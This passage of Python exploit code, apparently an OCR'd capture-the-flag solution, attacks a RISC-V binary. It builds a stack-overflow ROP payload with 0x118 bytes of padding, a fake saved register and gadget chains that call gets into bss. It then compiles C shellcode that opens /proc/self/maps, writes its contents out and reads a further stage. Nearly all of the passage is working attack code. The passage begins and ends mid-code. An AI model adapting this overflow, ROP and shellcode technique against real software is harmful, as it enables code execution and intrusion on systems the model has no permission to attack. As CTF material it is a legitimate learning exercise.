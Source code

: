 ```python
        0x40 * 1 + 0x08: a2, # set s5, a2 = s5
        0x40 * 1 + 0x28: 0, # s1
        0x40 * 1 + 0x20: 1, # s2
    }, length=0x80, filler=b'\x00')
    return payload

def gen_shellcode(src):
    import os
    open("sc.c", 'w').write(src)
    os.system("riscv64-linux-gnu-gcc-10 -Wa,-R -fPIC -O0 -nostdlib sc.c -o sc")
    os.system("riscv64-linux-gnu-objcopy -S -O binary -j .text ./sc ./sc.bin")
    return open("./sc.bin", "rb").read()


entry_addr = 0x000101c0

p1 = flat(
    # b"flag{have_you_tried_ghidra9.2_decompiler_@if_you_have_hexriscv_plz_share_it_with_me_thx:P}".ljust(0x118, '\x00'),
    b'a'*0x118,
    0xdeadbeef, # S0
    gad1, # ra
    gen_rop_chain(gets_addr, bss),
    gen_rop_chain(bss),
    # gen_rop_chain(entry_addr)
)

sla(io, "flag", p1)

# sleep(1)
sc1_src = """#include <linux/unistd.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <fcntl.h>
    #include <sys/mman.h>
    #include <sys/uio.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <stdint.h>

    static char flag_path[] = "/./proc/self/maps";

    int syscall(uint64_t nr, ...);

    int _start(){
        char buf[0x1000];
        int fd = syscall(__NR_openat, AT_FDCWD, flag_path, 0, 0);
        syscall(__NR_read, fd, buf, sizeof(buf));
        syscall(__NR_write, 1, buf, sizeof(buf));
        syscall(__NR_read, fd, buf, sizeof(buf));
        syscall(__NR_write, 1, buf, sizeof(buf));
        syscall(__NR_read, 0, 0x6f000, 0x800);
        return 0;
    }

    asm(
        "syscall:\\n"
            "mv a7, a0\\n"
            "mv a0, a1\\n"
            "mv a1, a2\\n"
            "mv a2, a3\\n"
            "mv a3, a4\\n"
            "mv a4, a5\\n"
```